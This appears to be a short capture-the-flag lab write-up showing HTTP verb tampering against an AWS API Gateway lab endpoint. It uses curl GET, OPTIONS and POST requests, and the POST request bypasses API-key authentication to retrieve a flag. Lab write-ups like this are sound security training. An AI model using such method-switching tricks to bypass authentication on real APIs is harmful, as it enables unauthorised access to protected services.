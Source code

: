 API-Key based authentication is a common method to protect an API.

In this lab, we will take a look at how to perform verb tampering and bypass the authentication enforced by the API Gateway.  

**Objective:** Bypass the authentication and retrieve the flag.  

**URL:** https://fur0fhuf6k.execute-api.ap-southeast-1.amazonaws.com/dev/default

======================================================

Sending a GET request
`curl https://fur0fhuf6k.execute-api.ap-southeast-1.amazonaws.com/dev/default`
Verbose mode
`curl https://fur0fhuf6k.execute-api.ap-southeast-1.amazonaws.com/dev/default -v`
![[Pasted image 20210906111537.png]]
Sending OPTIONS Request
`curl -X OPTIONS https://fur0fhuf6k.execute-api.ap-southeast-1.amazonaws.com/dev/default -v`
![[Pasted image 20210906111709.png]]
OPTIONS, GET, and POST methods are allowed
Sending a POST request
`curl -X POST https://fur0fhuf6k.execute-api.ap-southeast-1.amazonaws.com/dev/default -v`
![[Pasted image 20210906111830.png]]
Authentication Bypassed

Verbose mode